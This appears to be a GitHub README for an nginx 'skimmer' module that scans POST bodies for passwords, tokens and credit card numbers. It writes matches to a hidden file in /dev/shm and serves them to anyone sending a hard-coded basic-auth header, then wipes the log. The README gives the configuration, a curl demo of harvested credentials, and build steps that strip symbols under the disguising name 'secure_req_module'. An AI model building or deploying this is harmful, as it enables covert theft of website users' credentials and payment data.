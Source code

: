 # Info
Very basic "skimmer" module for nginx

Hooks into the body filter chain to evaluate the POST body for the presence of certain regex patterns

If a pattern is matched, it will attempt to store the request body and URL to a logfile

A mechanism is provided to retrieve the log via a request with a basic authentication header

This allows remote retrieval, and upon retrieval the current log is wiped

A similar approach could easily be used against the request.args string for get parameters

(No one would ever have sensitive data in those!)

# Example

https://i.imgur.com/2ylrFiS.mp4

# Configuration
```
// Configuration
// Location of file to log data to
const char *logfile = "/dev/shm/.s3cr3t5";

//Basic auth (or any string really) provided via Authorization header that will retrieve stored data
ngx_str_t auth = ngx_string("Basic Z2ltbWU6ZGFsb290");

//Regex patterns to search for
const ngx_str_t patterns[] = { 
    ngx_string("pass"),
    ngx_string("token"), 
    ngx_string("\\b(?:\\d(?:%20)*?[ -+]*?){13,16}\\b") // credit card regex example
};
```

# Sample
A sample dynamic and static version are provided in the docker folders compiled against `1.21.6`
```
cd docker-dynamic
docker-compose up -d

curl http://gimme:daloot@localhost:8888
> Error accessing file

curl -X POST -d "password=HiddenGem" http://localhost:8888

curl -X POST -d "password=HiddenGem&user=Admin&secret=123" http://localhost:8888/hidden/admin/direct0ry

curl -X POST -d "password=HiddenGem&user=Admin&secret=123" http://localhost:8888/hidden/admin/direct0ry?some_other_param=Private

curl http://gimme:daloot@localhost:8888
>
2022-03-06 19:38:13 localhost:8888/?
password=HiddenGem

2022-03-06 19:38:19 localhost:8888/hidden/admin/direct0ry?
password=HiddenGem&user=Admin&secret=123

2022-03-06 19:38:24 localhost:8888/hidden/admin/direct0ry?some_other_param=Private
password=HiddenGem&user=Admin&secret=123

curl http://gimme:daloot@localhost:8888
> File is empty
```

# Usage

This is version specific

# Download
https://nginx.org/en/download.html

Extract

Switch to directory

# Dynamic
## Configure - Dynamic
`./configure --add-dynamic-module=/opt/nginx-skimmer --with-compat`

## Make - Dynamic
`make modules`

## Get .so
`strip -s objs/ngx_http_secure_req_module.so`

`cp objs/ngx_http_secure_req_module.so ...`

## Enable - Dynamic
Place .so on disk

Add to nginx config somehow (for dynamic):

`load_module path/to/ngx_http_secure_req_module.so;`

`service nginx restart`


# Static
## Configure - Static
Basic example that works and can be tested in docker (paths etc should match if replacing):

`./configure --sbin-path=/usr/sbin/nginx --conf-path=/etc/nginx/nginx.conf --error-log-path=/var/log/nginx/error.log --http-log-path=/var/log/nginx/access.log --prefix=/usr/lib/nginx --add-module=/opt/nginx-skimmer`

## Make - Static
`make`

## Get resulting 
`strip -s objs/nginx`

`cp objs/nginx`